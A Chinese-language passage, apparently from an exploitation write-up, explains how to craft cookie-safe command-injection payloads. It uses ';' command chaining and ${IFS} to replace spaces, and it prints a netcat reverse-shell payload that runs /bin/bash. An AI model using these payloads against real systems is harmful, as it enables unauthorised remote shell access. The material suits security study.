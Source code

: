 ### payload编写

在控制了会话值之后，我们需要使用它来在系统上执行代码，但这仍然是一个会话值，这意味着即使对它进行编码也不能在其中使用某些字符，因此我们需要编写“会话友好” ”，我们可以注入这些有效负载而无需强制应用程序为我们生成另一个Cookie值。

例如，如果我对字符串“ Hi Payload”进行编码并将其传递给应用程序，我将得到以下信息：

![image](img/a7cb8a0b540ad0666aabdc57971ad226.png)

![image](img/c3988ba5ab3ceb665496b8b1bfd9fa7e.png)

如我们所见，该应用程序为我们设置了一个cookie而不是我们注入的cookie，因此要解决此问题，我们需要使用自定义有效负载。

因此，为了避免使用空格，我想到了使用“ $ {IFS}” bash变量来表示空格的想法。

当然，我们需要使用“;”转义命令 如下所示：

```
;payload 
```

如果要使用netcat获得外壳，则需要创建以下有效负载：

```
;``nc``${IFS}-e${IFS}``/bin/bash``${IFS}ip${IFS}port 
```

让我们尝试一下，首先对有效负载进行编码，以查看结果：

![image](img/621542e492d4704b8a7a9db9e1b6dc32.png)
